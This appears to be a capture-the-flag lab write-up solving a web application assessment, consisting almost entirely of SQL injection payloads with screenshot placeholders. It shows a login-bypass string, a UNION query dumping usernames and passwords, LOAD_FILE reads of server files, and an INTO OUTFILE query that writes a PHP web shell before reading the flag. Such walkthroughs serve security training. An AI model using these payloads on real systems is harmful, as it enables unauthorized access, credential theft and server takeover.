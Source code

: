# Assessment

Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.

<figure><img src="../../.gitbook/assets/image (81).png" alt=""><figcaption></figcaption></figure>

Bypass login

```
# username
asdf' or '1'='1' -- -
```

<figure><img src="../../.gitbook/assets/image (78).png" alt=""><figcaption></figcaption></figure>

```
cn' UNION select 1, id, username, password, 5 from ilfreight.users-- -
```

<figure><img src="../../.gitbook/assets/image (83) (1).png" alt=""><figcaption></figcaption></figure>

```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/dashboard/dashboard.php"), 3, 4, 5-- -
```

<figure><img src="../../.gitbook/assets/image (85) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (22) (1) (1).png" alt=""><figcaption><p>root:password</p></figcaption></figure>

```
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "", "" into outfile '/var/www/html/dashboard/shell.php'-- -
```

<figure><img src="../../.gitbook/assets/image (97) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (90).png" alt=""><figcaption></figcaption></figure>

flag\_cae1dadcd174.txt

```
cn' UNION SELECT 1, LOAD_FILE("/flag_cae1dadcd174.txt"), 3, 4, 5-- -
```

<figure><img src="../../.gitbook/assets/image (98) (1).png" alt=""><figcaption></figcaption></figure>



